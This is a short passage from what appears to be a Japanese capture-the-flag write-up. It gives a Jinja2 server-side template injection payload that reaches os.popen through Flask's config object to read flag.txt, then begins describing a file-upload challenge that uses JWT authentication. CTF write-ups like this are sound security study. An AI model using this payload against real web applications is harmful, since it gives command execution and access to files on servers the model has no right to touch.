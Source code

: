 `{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}`をusernameに入力すればflagが出力される．

![alt text](./image-4.png)

---

## [web] topplecontainer

与えられたサイトに行くと，ファイルのアップロードページが与えられる．
認証はjwtで行われている．
